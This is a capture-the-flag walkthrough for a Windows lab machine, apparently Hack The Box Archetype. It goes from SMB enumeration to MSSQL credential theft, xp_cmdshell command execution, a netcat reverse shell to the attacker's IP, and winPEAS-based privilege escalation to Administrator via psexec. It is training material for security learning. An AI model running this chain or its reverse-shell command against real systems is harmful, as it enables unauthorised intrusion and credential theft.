---
>Completed on `30/08/2022` | OS: `Windows`
>
>Tools used: `nmap` `smbclient` `smbget` `impacket-mssqlclient`  `module: http.server` `winPEAS` `nc.exe` `impacket-psexec`
>
---
> **Perform RCE**: *Here we will exploit the server with the user account, then from the user account exploit the server to get root privileges and thereby take the highest control.*
>

## **Analys** 

First, we still use the nmap tool to scan IP and see the serves are running.





| Port | Service | Version |
| --- | --- | --- |
| 135/tcp | msrpc | Microsoft Windows RPC |
| 139/tcp | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | micrisoft-ds | Windows Server 2019 Standard 17763 microsoft-ds |
| 1433/tcp | ms-sql-s | Microsoft SQL Server 2017 |

Here we recognize that on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP

## ****The SMB share****

Since a directory service is running on port 445 let's try to connect to HTB Archetype using smb.

```
smbclient -L 10.129.33.34
```

You can either add the -N parameter or simply press enter when you're being asked for a password since we do not have any potential passwords yet.



Luckily we found several shares without entering a valid password.

```bash
smbget -R smb://10.129.33.34/backups
```

The most interesting share is probably backups which is also the only non-default share.



Then we open the file `prod.dtsConfig`



## ****Obtaining a reverse shell****

- Yeah, we found username and password, now you will connect MSSQL Server by `impacket-mssqlclient`

```bash
python mssqlclient.py ARCHETYPE/sql_svc@10.129.33.34 -windows-auth
```

First, we need to check our Roles on the server :

```
SELECT is_srvrolemember('sysadmin');
```

- This will return us 1, which means true. So we can proceed

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “`archetype/sql_svc`”.

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
    
    local
    
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```bash
python3 -m http.server
```





- The next step is to execute the file in our target system for the reverse shell. So for that first, let’s set up our Netcat listener on our system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So user flag is in the Dekstop folder and we can navigate to that folder :



Now next we have to find our **Root** flag. For that, we need to switch to Administrator and get the flag, but we can’t do it just like that because we need root permission to access the file from the Administrator.

We need something that can tell us the weak points in the system so that we can exploit them and get the root access and we can’t do this manually because it will be a lengthy process upon searching we found something known as “`Winpeas`”

**`Winpeas`** is an extremely useful tool to enumerate the system for us and find weaknesses.





- Now run the tool using the command: “./winPEASx64.exe”
- After running at the end we get some output as:



• Notice the file named “ConsoleHost_history.txt”. Let’s navigate to this file and see what’s in there



Now we need a tool to log in as Administrator on our target PC and we cannot do it directly in our Windows `Powershell` as we do in the Linux system. There is a tool from our `impacket-**psexec**` which will help us.

- Kill the PowerShell and `mssqlclient` on our machine.
- Let’s use our tool:





*** ROOT Flag here ***
